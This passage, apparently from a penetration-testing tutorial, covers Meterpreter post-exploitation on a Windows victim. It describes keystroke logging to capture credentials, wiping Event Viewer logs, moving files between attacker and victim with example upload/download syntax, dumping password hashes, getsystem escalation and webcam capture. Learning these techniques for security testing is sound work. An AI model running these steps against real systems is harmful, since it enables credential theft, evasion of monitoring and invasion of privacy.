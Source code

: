 After running keyscan\_start, waiting for the user to enter credentials, then keyscan\_dump, drops the credentials clearly in plaintext. If you prefer to save the keystrokes to a file automatically every 30 seconds in case the session gets interrupted or you may need to store/search the keystrokes, use \`post/

![layout](/images/keylog3.PNG)

#### Clear Event Viewer

As a system administrator, logs are critical to identifying system compromise and anomalies. An attacker can easily wipe the Windows Event Viewer logs with a simple command.

Logs before wiping:

![layout](/images/ev1.PNG)

Wiping the logs:

![layout](/images/ev2.PNG)

Logs wiped on system:

![layout](/images/ev3.PNG)

#### Transfer Files

Using the `upload` command, you can upload a file from your attacker to the victim host. Using the `download` command you can download a file from the victim host to your attacker device.

Syntax:

`download c:\\path\to\file.exe`

`upload /path/on/attacker c:\\path\on\victim`

![layout](/images/uploaddownload.PNG)

#### Dump Account Hashes

To crack other user accounts, the hashes of other user accounts can easily be viewed using the `hashdump` command.

![layout](/images/hashdump.PNG)

#### Get System Privileges

If you migrate to a process that does not have system privileges, you can attempt to escalate back to that authority using `getsystem`.

![layout](/images/getsystem.PNG)

#### Webcam Control

Perhaps one of the most invasive and scary features of Meterpreter is the ability to detect webcams on the target, and then capture pictures using the webcam. Unfortunately, the VM I am demonstrating on does not have any webcam configured; however, the commands are fairly self explanatory.
